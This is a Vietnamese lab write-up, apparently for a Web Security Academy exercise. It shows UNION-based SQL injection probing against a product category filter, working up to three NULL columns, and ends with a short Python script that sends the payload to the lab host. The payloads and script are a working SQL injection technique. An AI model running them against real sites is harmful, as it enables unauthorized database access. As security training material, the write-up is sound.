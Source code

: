 ### Phân tích

- Trang web chứa lỗ hổng SQL injection trong chức năng bộ lọc hiển thị sản phẩm. Chúng ta có thể xác định số cột dữ liệu được trả về trong câu truy vấn. Để giải quyết bài lab, chúng ta cần sử dụng query UNION xác định số cột dữ liệu trả về bằng cách gộp các cột dữ liệu này với null.
- Tương tự bài lab 1, tham số category chính là nơi để khai thác SQLi.

mình gửi single quote và nhận phản hồi lỗi 500 từ phía server cho thấy web này có thể dính lỗi sqli

![image](https://hackmd.io/_uploads/Hkyfuco96.png)

và chúng ta cần xác định số cột trong table này bằng UNION

### Khai thác

- Câu truy vấn trả về 1 cột: `/filter?category=Lifestyle' UNION SELECT NULL--` và bị lỗi 500

  - ![image](https://hackmd.io/_uploads/S1I3d9sca.png)

- Câu truy vấn trả về 2 cột: `/filter?category=Lifestyle' UNION SELECT NULL, NULL--` và bị lỗi 500

  - ![image](https://hackmd.io/_uploads/HJBMK9scT.png)

- Câu truy vấn trả về 3 cột: `/filter?category=Lifestyle' UNION SELECT NULL, NULL, NULL--` và đã thực hiện thành công. Vậy bài này bảng này có 3 cột

![image](https://hackmd.io/_uploads/S1Qmqcs9a.png)

mình đã viết lại script khai thác

```python
#!/usr/bin/python3.7
import requests
import re
from bs4 import BeautifulSoup
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from urllib.parse import quote

url = 'https://0a73007d03167f53808cf43c00880023.web-security-academy.net'

session = requests.Session()

payload = "Lifestyle' UNION SELECT NULL, NULL, NULL--"
params = {
   'category' : payload,
}
response = session.get(
    url + "/filter",
    params=params,
    verify=False,
)

soup = BeautifulSoup(response.text,'html.parser')
print(soup)
```
